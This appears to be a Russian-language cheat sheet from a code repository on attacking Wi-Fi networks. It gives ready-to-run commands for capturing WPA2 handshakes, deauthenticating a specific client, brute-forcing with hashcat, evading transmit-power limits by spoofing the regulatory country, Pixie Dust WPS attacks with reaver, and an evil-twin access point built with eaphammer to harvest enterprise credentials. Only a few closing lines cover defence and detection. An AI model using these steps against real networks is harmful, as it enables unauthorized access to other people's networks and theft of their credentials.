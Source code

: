 # Атаки

Переводим адаптер в режим монитора: \
`$ iwconfig` \
`$ airmon-ng start wlan4` \
Слушаем эфир: \
`$ airodump-ng wlan4mon`

## WPA/WPA2 PSK

Необходимое условие для атак на WPA/WPA2: должны быть клиенты в сети.

Для атаки на WPA2 нужно поймать и записать хэндшейк в файл и потом с ним работать. \
`$ airodump-ng wlan4mon -w OutFile --bssid 4C:5E:0C:22:8C:D3 -c 6` \
`-c` - какой канал слушаем (из предыдущей команды, столбец CH) \
`--bssid` - тоже из пред команды \
`wlan4mon` - интерфейс в режиме монитора

Чтобы поймать хендшейк, кто-то должен подключиться. Для этого можем с помощью разных методик отключить одного из пользователей: \
Классический способ: `$ airreplay-ng -0 100 -a 4C:5E:0C:22:8C:D3 -c 8C:FA:BA:9C:0A:B5 wlan4mon` \
\-a - bssid сети \
\-c - кого отключаем

Многие начинающие специалисты начинают сразу брутить. Это неправильно. Сначала надо проверить, подходит ли хендшейк для брута. Самый легкий вариант - утилита `cowpatty`: \
`$ cowpatty -c -r OutFile.cap` \
если выведет, что "Collected all neccery data...", то все норм, можно брутить.

С чем может быть связано, что плохой хендшейк? Ответ: записались в перемешку пакеты от разных хендшейков.\
Утилита `wpaclean` вырезает из записанного файла все лишнее (кроме самого хэндшейка)

Брут с помощью hashcat (Win | Linux)\
Атакующие, как правило, не используют свое оборудование для перехвати трафика, а используют, например, Rasberry Pi (навешивают антенны), и управляют с помощью утилиты `airserv-ng` \
Так же, используется усиление антенны (посмотреть текущее: iwconfig, Tx-Power, default 20dBm)

Сильный сигнал желателен для атаки на технологию WPS. Изменяем мощность антенны: \
`$ ifconfig wlan4 down` \
`$ iw reg set BZ # ставим страну Белиз. Для нее разрешено 30dBm` \
`$ iw reg get` \
`$ iwconfig wlan4 txpower 30` \
`$ ifconfig wlan4 up` \
`$ iwconfig # Видим, что сигнал увеличился`

Работаем с WPS: у `airodump` последней версии появилось два ключа полезных: \
`$ airodump-ng wlan4mon --wps --uptime` \
Столбец WPS показывает, включена ли WPS-технология \
При атаке на WPS актуально время работы точки: \
Появилась атака на WPS - Pixie \
В `reaver` есть поддержка этой атаки (ключ -K - это оффлайн брут WPS - попытка подобрать WPS pin ). Узнать, какое оборудование подвержено атаке этой: есть уже составляемые доки, например: WPS Pixie Dust Database

Совет по безопасности:

* Менять mac-адрес оборудования (bssid), потому что по дефолтному маку можно узнать тип оборудования и как-то уже планировать атаку
* Менять дефолтное имя оборудования, потому что по нему при WPS можно, в некоторых случаях, узнать PIN по умолчанию
* Менять PIN

## FakeAP/EvilTwin

Так можно атаковать WPA-EAP (WPA Enterprise)

Еще одна атака - `FakeAP/EvilTwin` - поднимаем фейковую точку, запускаем iptables, запускаем сервер. При подключении предлагается ввести пароль. Подключаем два адаптера беспроводных. Пример утилиты: `wifiphisher`

или `eaphammer`:

```
sudo ./eaphammer -i wlan1 --channel 48 --hw-mode a --auth wpa-eap --essid <wifi name> --creds
```

## Как это все обнаруживать, смотреть, защищать:&#x20;

WPS

* Использовать другой mac
* В идеале, вообще не использовать

Утилита `waidps` - утилита для обнаружения вторжения в сеть
